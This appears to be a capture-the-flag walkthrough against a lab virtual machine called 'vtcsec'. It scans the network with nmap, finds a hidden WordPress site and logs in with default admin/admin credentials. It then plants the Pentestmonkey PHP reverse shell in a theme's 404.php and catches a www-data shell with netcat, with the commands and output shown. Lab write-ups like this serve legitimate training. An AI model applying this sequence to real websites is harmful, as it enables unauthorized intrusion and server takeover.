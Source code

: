 ### Find own IP/Network

    ifconfig

>eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.30.131  netmask 255.255.255.0  broadcast 192.168.30.255

###Scan Network


    nmap 192.168.30.0/24
    
    >Nmap scan report for 192.168.30.128
Host is up (0.00072s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:64:FF (VMware)

    
###Add host to hosts file for convenience

    echo 192.168.30.128 vtcsec >> /etc/hosts
    
    
###Enumerate HTTP

    nmap --script=http-enum vtcsec
  
  
  
>Nmap scan report for vtcsec (192.168.30.128)
Host is up (0.00020s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /secret/: Potentially interesting folder
MAC Address: 00:0C:29:04:64:FF (VMware)

###The wordpress site

Navigate to:
    
    vtcsec/secret
    
This is found to be a wordpress site. Try the default login page wp-login.php to see if it works

    vtcsec/secret/wp-login.php
    
 Login Page Found

Test Default Password

    Login: admin
    Pass: admin
    

###Upload Reverse shell script

Check themes, what is currently active?

    Appearance > Themes
    
Edit a 404.php page

    Appearance > editor > (select a non active theme. here I use twentysixteen) > 404 template(404.php)
    
Copy and paste Pentestmonkey PHP Reverse Shell script. (Don't forget to set the local port and ip! Here I use port 7777)
    
    (Modify this stuff)
    $ip = '192.168.30.131'; //CHANGE THIS
    $port = '7777'; //CHANGE THIS


###Set up listener

    nc -lvp 7777
    
###Open page and load the 404.php

    (open in browser) vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
    or
    
    curl vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
Reverse shell received
    
    >root@kali:~# nc -lvp 7777
listening on [any] 7777 ...
connect to [192.168.30.131] from vtcsec [192.168.30.128] 57100
Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:37:43 up 50 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
    
    
    
